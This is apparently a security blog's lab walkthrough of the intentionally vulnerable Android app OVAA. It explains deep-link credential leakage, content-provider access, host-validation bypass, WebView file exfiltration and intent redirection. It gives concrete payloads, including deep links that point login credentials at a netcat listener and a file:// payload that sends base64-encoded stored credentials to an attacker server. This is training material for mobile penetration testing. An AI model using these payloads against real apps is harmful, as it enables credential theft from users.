

#Introduction:

[OVAA (Oversecured Vulnerable Android App)](https://github.com/oversecured/ovaa) is an Android app that aggregates all the platform’s known and popular security vulnerabilities.

Table of Contents

-   [Introduction:](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#Introduction)
-   [Prerequisites](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#Prerequisites)
    -   [1. Leakage of credentials via installation of an arbitrary url.](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#1_Leakage_of_credentials_via_installation_of_an_arbitrary_url)
    -   [2. Obtaining access to arbitrary non-exported content providers.](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#2_Obtaining_access_to_arbitrary_non-exported_content_providers)
    -   [3. Bypass host validation in deeplink.](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#3_Bypass_host_validation_in_deeplink)
    -   [4. Exfiltrate sensitive data via deeplink by making use of the vulnerable WebView setting.](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#4_Exfiltrate_sensitive_data_via_deeplink_by_making_use_of_the_vulnerable_WebView_setting)
    -   [5. Acquiring access to protected activity using intent redirection.](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#5_Acquiring_access_to_protected_activity_using_intent_redirection)
        -   [Exploitation:](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#Exploitation)
-   [Conclusion:](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#Conclusion)
-   [References:](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#References)
-   [About Payatu](https://payatu.com/blog/oversecured-ovaa-walkthrough-part1/#About_Payatu)

As of writing this post, the app consists of 18 vulnerabilities mainly focused on OWASP Mobile Top 10. This is Part-1 of the series in which we have covered five vulnerabilities. We will try to explain every topic that will come in the way of solving the challenges.

Prerequisites

Before starting our Blog series, it is assumed that the reader has his/her Android Pentesting Lab ready and also prior knowledge of Android Components and their working.

However, below are some references in case you want to setup your Android Pentesting lab or read more about Android Components.:

[Android Pentesting Lab](https://payatu.com/blog/amit/android_pentesting_lab)

[Penetrate the Protected Component in Android Part-1](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-0)

[Penetrate the Protected Components in Android Part-2](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-2)

If you are reading this, that means you have all the arsenal in your hands. Without any further delay, let’s solve these challenges:

1\. Leakage of credentials via installation of an arbitrary url.

Before we solve this challenge, we need to understand what a deep link is.

Deep links are the hyperlinks that allow users to open specific content inside an android application. Developers often configure these links to save the users from the extra burden of locating a particular page themselves and thus significantly improving the user experience.

A sample deep link looks like –

Taking example of above deep link, we have

-   scheme: oversecured,
-   host: OVAA,
-   pathPrefix: /login, and
-   query: url=[http://evil.com](http://evil.com/)

Exploiting deep links needs an understanding of how the application is processing the deep link data. First, decompile the ovaa.apk using jadx-gui and then locate the oversecured.ovaa.activities.DeeplinkActivity, the code should look like the picture below.

Decompiled Code snippet of oversecured.ovaa.activities.DeeplinkActivity

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

As you can see there are four different pathPrefix that is being processed, we will analyze each one of them later. For this challenge, we will focus on the pathPrefix /login. In this pathPrefix, the application is taking the URL parameter from the deep link and assigning it to the LOGIN_URL_KEY using **this.loginUtils.setLoginUrl(url2)** if the URL parameter is not null. After that, start an activity named EntranceActivity

*Decompiled code snippet of oversecured.ovaa.activities.EntranceActivity*

Going into that activity, we can see it is checking if we have already logged in or not. If not, start another activity LoginActivity

*Decompiled code snippet of oversecured.ovaa.activities.LoginActivity*

Line 63 of LoginActivity is starting a LoginService that is sending the login credentials to the LOGIN_URL_KEY. Since the LOGIN_URL_KEY is controlled by the user, we can provide the URL which we have access to and then sniff the credentials.

Let’s open a netcat connection to listen to the interface to which the emulator is connected.

Payload: oversecured://ovaa/login?url=[http://192.168.56.1:9001](http://192.168.56.1:9001/)

Open a web browser and paste this link, it should redirect you to a login page, after few seconds, the netcat will receive a post request that contains the creds.

*Netcat listener on port 9001*

2\. Obtaining access to arbitrary non-exported content providers.

In this challenge, we have to access a content provider which is not exported but can be accessed if it has the flag Intent.FLAG_GRANT_READ_URI_PERMISSION set. This flag grants permission to perform read operations on the URL in the intent’s data.

In DeeplinkActivity class, we can notice that the application is using **startActivityForResult** method to open an activity. Sometimes we want to get a result back from an activity when it ends. For example, we may start an activity that lets the user pick a person from a list of contacts; when it ends, it returns the person that was selected. To do this, you call the **startActivityForResult(Intent, int)** version with a second integer parameter identifying the call. The result will come back through our **onActivityResult(int, int, Intent)** method.

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

However, after going through the code, we find out that the method **onActivityResult** method never gets executed because of a finish method called after processDeeplink. Since the finish method will destroy the current activity, the activity is no longer waiting for the result to come back.

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

To make it work, we need to remove the finish method from Line 30 and add it to Line 73 as shown below.

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

Now that you have understood the methods and its working, let’s understand how we are going to exploit this vulnerability using an ExploitApp.

First, we created an ExploitApp with two activities named MainActivity and EvilActivity.

*AndroidManifest File of ExploitApp*

EvilActivity of ExploitApp has action set to **oversecured.ovaa.action.GRANT_PERMISSIONS** which means that DeeplinkActivity of OVAA app will start this activity if no other activity can handle the intent.

*MainActivity of ExploitApp*

Please note that we are opening DeeplinkActivity using **startActivityForResult** method and that means we are waiting for the result that will be returned by DeeplinkActivity. And DeeplinkActivity is also starting EvilActivity using **startActivityForResult** method which means it is also waiting for the result that will be returned by the EvilActivity.

*EvilActivity of ExploitApp*

When this intent is returned to the DeeplinkActivity, it simply returns the same intent to the MainActivity of ExploitApp and then we can dump the creds using the content provider ”content://oversecured.ovaa.creds_provider/”.

Now you may be wondering why we can’t dump the creds using content provider from EvilActivity itself. It will not work because only the recipient of the intent will be granted permission to perform read operations. So, when the DeeplinkActivity sends the intent to the MainActivity of ExploitApp, the MainActivity has permission granted. To sum up the whole process, we have created an image as shown below:

*Diagram of how the exploit works*

Launch ExploitApp and check the logs, you will get the creds.

*Log output of the ExploitApp containing credentials*

*3. Bypass host validation in deeplink.*

*Opening the oversecured.ovaa.activities.DeeplinkActivity , when the path prefix is* **/webview** *, it is doing some validation on the URL which we pass as a parameter as shown below.*

**

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

*We can easily bypass this validation by using any website that ends with example.com for example, evilexample.com. We will be using adb to open the DeeplinkActivity this time, however you can also do that using Drozer or by manually creating an application.*

**

*Using adb to launch the attack*

*4. Exfiltrate sensitive data via deeplink by making use of the vulnerable WebView setting.*

*In the oversecured.ovaa.activities.WebViewActivity, setAllowFileAccessFromFileURLs has been set which allows whether cross-origin requests in the context of a file scheme URL should be allowed to access content from other file scheme URLs. For example, it can read the hosts’ file or login_data.xml file where it stores the credentials. Also, we can see in the DeeplinkActivity of the OVAA app, only the host value is validated but the scheme isn’t validated.*

**

*Code snippet of oversecured.ovaa.activities.DeeplinkActivity*

**

*Code snippet of oversecured.ovaa.activities.WebViewActivity*

*We can use the following payload with file:// scheme to bypass those checks.*

*file://example.com/sdcard/Download/payload.html*

*Generally when we load a file using a file scheme, we do file:///location_of_the_file.  
Please note the three forward slashes. Putting example.com after two forward slashes will successfully bypass the checks for the host validation in the DeepLinkActivity and since it is not validating the scheme, it will load the webview. However, if the application was also validation scheme then our payload will failed and won’t be loaded in the webview.*

*What we are going to do is save an HTML file in the external storage card’s download folder that loads* **login_data.xml** *file of the OVAA app. We will then encode the content using base64 encoding and then forward it to our controlled server.*

**

*Source code of payload.html*

*We will again use adb to launch the DeeplinkActivity.*

*Setup a listener on port 9001 before running the adb command.*

**

*Using adb to lauch the attack*

**

*Setting up netcat listener on port 9001 and then base64 decoding the recieved data*

*5. Acquiring access to protected activity using intent redirection.*

*In this challenge, whenever the user logins into the app, there are some checks that are being performed in the backend. Let’s view the code of LoginActivity and try to understand.*

**

*Code snippet of oversecured.ovaa.activities.LoginActivity*

**

*Code snippet of oversecured.ovaa.activities.LoginActivity*

*On line 34, The onLoginFinished method is being called directly if the user is already logged in. Otherwise, as you can see on line 53, after the user enters the email and password, it calls the function* **processLogin(email, password)** *in which the credentials are being checked.*

*After that there is another function being called on line 74 i.e,* **onLoginFinished***. In the* **onLoginFinished***, the app checks if there is an intent that has a data with key named as redirect_intent which if not null, then it starts the activity of that redirect_intent.*

*For the sake of simplicity, we will start the WebViewActivity which is not exported.*

**Exploitation:**

*The LoginActivity class is exported, so we can launch it using another app.*

*Our exploit application’s MainActivity will looks like below.*

**

*MainActivity of ExploitApp*

*First, we are creating an intent i to launch the LoginActivity of OVAA app. Next, we are passing another intent named redirect_intent using putExtra method in intent i with keyname as redirect_intent. When the LoginActivity launches, it will check if the intent has a parceableExtra named as redirect_intent . If yes, it will fetch the redirect_intent and call* **startActivity** *method.*

*Run the exploit application and it will open the link given in the URL parameter.*

*Here, you may think that why do we need to pass the redirect intent, can’t I pass the redirect_intent in startActivity of my exploit application directly. It won’t work because the WebViewActivity is not exported, and you will get permission denied.*

**

*Accessing arbitrary activity*

*Conclusion:*

*We’ve solved the five challenges for the “Oversecured” Android Application. In my next blog,  
We will be looking at more vulnerabilities in the application and attempt to demonstrate how they can be exploited. Thank you for reading to the end and we’ll see you in the next part of the blog:* [*A detailed approach to solving OVAA – Further Walkthrough*](https://payatu.com/blog/oversecured-ovaa-walkthrough-part2/)

*References:*

[*https://developer.android.com/reference/android/content/Intent.html\#FLAG_GRANT_READ_URI_PERMISSION*](https://developer.android.com/reference/android/content/Intent.html#FLAG_GRANT_READ_URI_PERMISSION)

[*https://developer.android.com/reference/android/app/Activity\#ActivityLifecycle*](https://developer.android.com/reference/android/app/Activity#ActivityLifecycle)

[*https://hackerone.com/reports/431002*](https://hackerone.com/reports/431002)

[*https://developer.android.com/guide/components/intents-filters*](https://developer.android.com/guide/components/intents-filters)

[*https://infosecwriteups.com/the-zaheck-of-android-deep-links-a5f57dc4ae4c*](https://infosecwriteups.com/the-zaheck-of-android-deep-links-a5f57dc4ae4c)
